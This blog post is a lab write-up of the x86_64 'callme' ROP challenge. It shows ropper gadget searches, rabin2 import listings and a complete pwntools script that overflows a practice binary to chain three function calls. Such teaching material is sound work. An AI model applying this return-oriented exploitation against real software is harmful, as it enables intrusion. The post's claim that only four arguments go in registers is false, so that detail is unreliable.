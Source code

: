 
---
layout: post
title: ROP x64 Challenge 3
status: in progress
type: post
published: true
comments: true
date: 2022-07-13
---
## Challenge 3

With the first real ROP challenge completed, let's start getting into some of the fun stuff. While unintended gadgets are super fun to play with, it's also super useful to be able to call intended functions and that is what this challenge deals with. 

Before we go into the challenge, let's take a quick look at how function arguments are passed from caller to callie which is actually system dependent. In x86_64, both the stack and the registers are used, but in practice it's really just the registers. The first 4 arguments are placed in registers, then the rest are pushed onto the stack before the call.

| 64-bit register | 32-bit sub-register | 16-bit sub-register | 8-bit sub-register | Notes               |
| --------------- | ------------------- | ------------------- | ------------------ | ------------------- |
| %rcx            | %ecx                | %cx                 | %cl                | Counter & 4th arg   |
| %rdx            | %edx                | %dx                 | %dl                | 3rd arg             |
| %rsi            | %esi                | %si                 | %sil               | 2nd arg             |
| %rdi            | %edi                | %di                 | %dil               | 1st call argument |

So, if we have the following function:

```C
int foo(int var1, int var2, int var3){
	stuff
}
```

and we wanted to call the function as `foo(1,2,3);` then we would have to place 1 in rdi, 2 in rsi, and 3 in rdx.

With that background covered, let's look at the challenge:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, ~~each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag~~. ==**For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`==

First things first, let's just focus on doing it for callme_one. We need to find gadgets that will let us control the values of rdi, rsi, and rdx. The simplest way is to pop them off the stack because we already control that. So let's search for pop rdi in the binary.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/callme/callme_64/callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 

```


Will you look at that, that's super useful (it's also there intentionally, hint `disass usefulGagets`).

With that gadget we can set all of the arguments to the callme functions.

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | pop gadget loc | # call 1st gadget to pop off all the vals
8  bytes | 0xdeadbeef...  | # all of the function arguments
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_1 loc   | # call the first call me function
8  bytes | pop gadget loc | # start again, and call the pop off gadget
8  bytes | 0xdeadbeef...  | # function args again
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_2 loc   | # call the sec call me function
8  bytes | pop gadget loc | # start again for the last time
8  bytes | 0xdeadbeef...  |
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_3 loc   | # final call of call me
8  bytes | -------------- |

```

There's just one last thing that we don't know, what values to place into the stack for the callme functions. To do this, we can use the rabin2 tool from before:
```
rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

And we are able to get the locations of the callme functions. An important note is that these are in the plt (Procedure Linkage Table), not actually the callme binary. That won't matter for this challenge, but we will have to deal with the plt and how linked binaries work later on.

At this point we have all of the values that we want to put on the stack, so it's just a question of coding up an exploit in python with our trusty pwntools.

```python
#!/usr/bin/python3

from pwn import *
io = process('./callme')

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
popper = p64(0x0040093c)
call1 = p64(0x00400720)
call2 = p64(0x00400740)
call3 = p64(0x004006f0)

back_junk = b"B" * 20

newbp    = p32(0xba5effff) * 2

d00df00d = p32(0xd00df00d) * 2
deadbeef = p32(0xdeadbeef) * 2
cafebabe = p32(0xcafebabe) * 2

args = deadbeef + cafebabe + d00df00d 

payload = junk + newbp + popper + args +call1 + popper + args + call2 + popper + args + call3

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))

io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))

sleep(1)

```

